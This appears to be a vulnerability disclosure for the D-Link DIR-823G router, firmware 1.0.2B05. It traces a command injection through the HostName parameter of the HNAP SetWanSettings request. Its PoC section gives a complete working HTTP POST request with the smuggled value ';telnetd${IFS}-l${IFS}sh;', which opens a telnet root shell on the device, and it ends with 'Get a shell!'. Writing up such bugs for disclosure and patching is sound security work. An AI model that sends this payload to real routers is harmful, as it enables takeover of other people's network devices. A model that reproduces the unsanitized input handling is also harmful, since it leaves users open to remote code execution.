





# D-Link Vulnerability

Vendor:D-Link

Product:DIR_823G

Version:1.0.2B05

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently. A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `goahead` binary:

In `SetWanSettings` function, `HostName` is directly passed by the attacker. After that, call the function `apmib_set` to store this input.

<div  align="center"></div>

<div  align="center"></div>

In `sysconf` binary:

In `sub_419490` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

<div  align="center"></div>


## PoC

We set `HostName`=**;telnetd${IFS}-l${IFS}sh;**, and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetWanSettings"
HNAP_AUTH: AEBA125D58469DE56DBA91DD384F1828 1728992957
X-Requested-With: XMLHttpRequest
Content-Length: 1047
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Network.html
Cookie: uid=9TvTXXrCEc; PrivateKey=82F0BA34D9C35A45642D18D11A25DD32; timeout=10

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetWanSettings xmlns="http://purenetworks.com/HNAP1/"><Type>DHCP</Type><PppoeType></PppoeType><Username></Username><Password></Password><MaxIdleTime>0</MaxIdleTime><MTU>1500</MTU><HostName>;telnetd${IFS}-l${IFS}sh;</HostName><ServiceName></ServiceName><AutoReconnect>false</AutoReconnect><IPAddress></IPAddress><SubnetMask></SubnetMask><Gateway></Gateway><DnsManual>false</DnsManual><MacCloneEnable>false</MacCloneEnable><CloneMacAddress></CloneMacAddress><MacCloneType></MacCloneType><WanSpeed>Auto</WanSpeed><WanDuplex>Auto</WanDuplex><ConfigDNS><Primary></Primary><Secondary></Secondary></ConfigDNS><MacAddress></MacAddress><VPNServerIPAddress></VPNServerIPAddress><VPNLocalIPAddress></VPNLocalIPAddress><VPNLocalSubnetMask></VPNLocalSubnetMask><VPNLocalGateway></VPNLocalGateway></SetWanSettings></soap:Body></soap:Envelope>
```

<div  align="center"></div>


## Result

Get a shell!

<div  align="center"></div>
